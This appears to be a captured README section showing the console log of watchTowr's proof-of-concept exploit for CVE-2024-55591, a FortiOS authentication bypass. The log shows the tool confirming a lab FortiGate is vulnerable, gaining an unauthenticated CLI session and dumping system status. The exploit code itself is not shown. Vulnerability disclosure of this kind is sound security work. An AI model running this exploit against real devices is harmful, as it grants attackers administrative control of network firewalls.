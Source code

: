 ```bash

        CVE-2024-55591.py
        (*) Fortinet FortiOS Authentication Bypass (CVE-2024-55591) POC by watchTowr
        
          - Sonny , watchTowr (sonny@watchTowr.com)

        CVEs: [CVE-2024-55591]

[*] Checking if target is a FortiOS Management interface
[*] Target is confirmed as a FortiOS Management interface
[*] Target is confirmed as vulnerable to CVE-2024-55591, proceeding with exploitation
Output from server: �
Lab-70F # 
Output from server: �q
Lab-70F # get system status
Version: FortiGate-70F v7.0.16,build0667,241001 (GA.M)
Security Level: High

Output from server: �Firmware Signature: certified

Output from server: �xVirus-DB: 1.00000(2018-04-09 18:07)
Extended DB: 1.00000(2018-04-09 18:07)
AV AI/ML Model: 0.00000(2001-01-01 00:00)

Output from server: �#IPS-DB: 6.00741(2015-12-01 02:30)

Output from server: �HIPS-ETDB: 0.00000(2001-01-01 00:00)
APP-DB: 6.00741(2015-12-01 02:30)

Output from server: �*INDUSTRIAL-DB: 6.00741(2015-12-01 02:30)

Output from server: �XIPS Malicious URL Database: 1.00001(2015-01-01 01:01)
Serial-Number: FGT70FTKXXXXXX58

Output from server: �~�BIOS version: 05000001
System Part-Number: P28211-01
Log hard disk: Not available
Hostname: Lab-70F
Private Encryption: Disable

Output from server: �~�Operation Mode: NAT
Current virtual domain: root
Max number of virtual domains: 10
Virtual domains status: 1 in NAT mode, 0 in TP mode
Virtual domain configuration: disable
FIPS-CC mode: disable
Current HA mode: standalone
Branch point: 0667
Release Version Information: GA
System time: Wed Apr 23 08:44:25 2025
Last reboot reason: power cycle

Lab-70F #

```
